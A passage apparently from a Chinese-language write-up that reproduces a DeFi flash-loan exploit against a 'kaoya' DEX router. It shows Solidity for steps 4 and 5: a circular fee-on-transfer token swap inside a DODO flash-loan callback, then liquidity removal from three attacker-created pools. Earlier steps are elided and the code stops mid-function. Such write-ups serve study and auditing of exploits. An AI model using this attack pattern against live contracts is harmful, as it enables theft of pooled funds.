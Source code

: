 

### step4：调用函数`swapExactTokensForETHSupportingFeeOnTransferTokens`，path=\[TA, WBNB,TB,TA,WBNB]，amountIn= 8000e18 ，也就是用 8000 个TA来发起交易。




```solidity
function DPPFlashLoanCall(address msgSender, uint baseAmount, uint quoteAmount, bytes calldata data) public {
        //step2
        ...
        //step3
        ...
        //step4
        address[] memory path3 = new address[](5);
        path3[0] = address(TA);
        path3[1] = address(WBNB);
        path3[2] = address(TB);
        path3[3] = address(TA);
        path3[4] = address(WBNB);
        kaoyaRouter.swapExactTokensForETHSupportingFeeOnTransferTokens(8000e18, 1, path3, address(this), block.timestamp+1000);
   
}
```



### step5：移除 step3 创建的 3 个池子的流动性。




```solidity
function DPPFlashLoanCall(address msgSender, uint baseAmount, uint quoteAmount, bytes calldata data) public {
        //step2
        ...
        //step3
        ...
        //step4
        ...
           //step5
        removeLiquidity(address(WBNB), address(TA), liquidity1, true);
        removeLiquidity(address(WBNB), address(TB), liquidity2, true);
        removeLiquidity(address(TB), address(TA), liquidity3, false);
}
    function removeLiquidity(address token0, address token1, uint liquidity, bool containETH) public {
        (address token0, address token1) = sortTokens(token0, token1);
        Uni_Pair_V2 pair = Uni_Pair_V2(pairFor(KAOYA_FACTORY_ADDRESS, token0, token1));
        pair.approve(address(kaoyaRouter), type(uint256).max);
        console.log('liquidity', liquidity);
        //报错，transferFrom，from本合约，对了，需要LP的。之前的pair接口没有approve不对。
        if(containETH){
            kaoyaRouter.removeLiquidityETHSupportingFeeOnTransferTokens(token0, liquidity, 1, 1, address(this), block.timestamp+1000);
        }else{
            kaoyaRouter.removeLiquidity(token0, token1, liquidity, 1, 1, address(this), block.timestamp+1000);
        }
    }
        // returns sorted token addresses, used to handle return values from pairs sorted in this order
    function sortTokens(address tokenA, address tokenB) internal pure returns (address token0, address token1) {
```